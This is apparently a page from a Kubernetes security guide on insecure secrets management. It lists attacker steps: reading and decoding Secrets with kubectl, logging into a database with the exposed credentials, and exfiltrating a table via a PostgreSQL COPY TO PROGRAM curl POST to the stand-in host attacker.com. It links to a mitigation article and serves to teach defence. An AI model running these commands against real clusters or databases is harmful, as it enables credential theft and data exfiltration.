 ```yaml
---
sidebar_position: 4
title: Insecure Secrets Management
description: Understanding the risks of insecure secrets management in Kubernetes and how it can lead to sensitive data exposure.
---
```


# Insecure Secrets Management

Insecure secrets management in Kubernetes can lead to the exposure of sensitive data, such as API keys, database credentials, and certificates. Storing secrets in plaintext or using insecure backends increases the risk of unauthorized access by attackers.

---

## Exploitation Steps: Accessing Insecurely Stored Secrets

An attacker can identify Kubernetes Secrets stored in plaintext using the following command:

```bash
kubectl get secrets -o yaml
```

### 1. Decode a Kubernetes Secret

The attacker extracts and decodes a Base64-encoded secret:

```bash
kubectl get secret db-secret -o go-template='{{.data.password|base64decode}}'
```

### 2. Access Sensitive Services Using Exposed Credentials

The attacker uses the decoded credentials to access a database:

```bash
psql -h <database-ip> -U admin -W
```

### 3. Exfiltrate Data from the Database

The attacker exports sensitive data from the database to an external server:

```sql
COPY (SELECT * FROM sensitive_data) TO PROGRAM 'curl -X POST -d @- http://attacker.com/upload';
```

### Result

The attacker can access and exfiltrate sensitive data, potentially causing data breaches and regulatory compliance violations.

---

## Mitigation

For guidance on how to prevent this attack vector, refer to the mitigation article:

[Securing Secrets in Kubernetes](/docs/best_practices/cluster_setup_and_hardening/secrets_management/insecure_secrets_management_mitigation)
